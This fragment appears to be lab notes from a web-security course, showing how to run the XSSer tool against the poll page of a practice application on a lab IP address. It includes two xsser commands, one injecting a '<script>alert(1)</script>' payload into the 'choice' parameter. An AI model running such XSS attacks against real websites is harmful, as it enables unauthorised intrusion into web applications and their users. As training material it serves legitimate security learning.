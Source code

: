- Perform an XSS Poll Question attack over `GET` request
  - `http://192.131.167.3/index.php?page=user-poll.php`
  - copy the `URL`, replace the `nmap` value with **`XSS`** and pass it to XSSer
    - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=2&user-poll-php-submit-button=Submit+Vote`

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote"
```

![](assets/image-20230505002804916.png)

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```

![](assets/image-20230505002847054.png)
